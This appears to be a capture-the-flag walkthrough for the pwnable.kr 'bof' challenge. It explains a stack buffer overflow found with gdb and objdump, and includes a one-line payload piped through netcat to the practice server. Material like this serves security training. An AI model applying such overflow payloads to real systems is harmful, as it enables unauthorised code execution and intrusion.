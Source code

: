 #### pwnable-kr
##### Toddler's Bottle | bof challenge
**Note** </br>
if you are using 64 bit machine you need to install these:</br>
```
 $ sudo apt-get install libc6-i386
 $ sudo apt-get install g++-multilib
```

with these you can run bof in your system :) </br>
there are 2 way to solve this problem.

---
**one** </br>
use `gdb bof` and put breakpoint on func </br>
use `run` command and enter 32 `A` in the input </br>
Ok, lets inspect the memory. We can use `xw` to display 32bit words (instead of 8, making it easier for us to see our patterns).
```
(gdb) x/20xhw $esp
```
you can see 5 word after `A`s there is `deadbeaf`; so we must enter 13 word `A` (it means 52 `A`) and after than  `cafebabe` on the input.</br>

so use this command to make if condition be `TRUE` and after than write `cat flag` to see the flag.
</br>
```
$ (python -c "print 'A'*52+'\xbe\xba\xfe\xca'") | nc pwnable.kr 9000
```
---
**TWO**</br>
use `objdump`; on `func` you can see `$epb` has `0x2C` length.</br>
in this program, memory schema is like this:
```
|--------------------| High address
|       	       |
|--------------------|
|  int key (4 Bytes) | <- method parameters
|--------------------|
|   SEIP (4 Bytes)   | <- saved EIP;(also called program counter) 
|--------------------|
|   sebp (4 Bytes)   | <- saved ebp
|--------------------|
|                    |
|        ebp |
|    (0x2C Bytes)    |
|           	     |
|--------------------|
|            		 |
|--------------------| Low address
```
 so after you underestand that you can write code like [this](https://gist.github.com/Aseyed/db9c9685fef7f3b9399378f868aff3a3#file-pwnable-kr_bof-py) </br>
 run the code with python2 after that you can run `cat flag` to catch the flag

